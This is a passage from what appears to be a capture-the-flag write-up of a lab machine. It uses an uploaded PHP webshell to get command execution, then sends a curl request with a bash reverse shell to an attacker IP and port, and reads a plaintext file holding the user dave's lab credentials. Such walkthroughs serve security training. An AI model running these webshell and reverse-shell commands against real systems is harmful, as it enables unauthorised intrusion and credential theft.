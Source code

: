 ```
$ curl http://sparklays.com/sparklays/design/uploads/test1.php5?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now, we have RCE on the machine and can get a reverse shell. We can use this command here:

```
$ curl -G --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.21/4444 0>&1"' http://sparklays.com/sparklays/design/uploads/test1.php5
```

<figure><img src="../../../.gitbook/assets/image (4) (3) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Dave Credentials

There are a few users on this machine:

```
www-data@ubuntu:/home$ ls -la
total 16
drwxr-xr-x  4 root root 4096 Jun  2  2021 .
drwxr-xr-x 24 root root 4096 Dec  2  2021 ..
drwxr-xr-x 19 alex alex 4096 Jun  2  2021 alex
drwxr-xr-x 18 dave dave 4096 Jun  2  2021 dave
```

Within the `/home/dave/Desktop` directory ,we can find a `ssh` file that has credentials for `dave` within it.

```
www-data@ubuntu:/home/dave/Desktop$ cat ssh
dave
Dav3therav3123
```

<figure><img src="../../../.gitbook/assets/image (40) (6) (1).png" alt=""><figcaption></figcaption></figure>
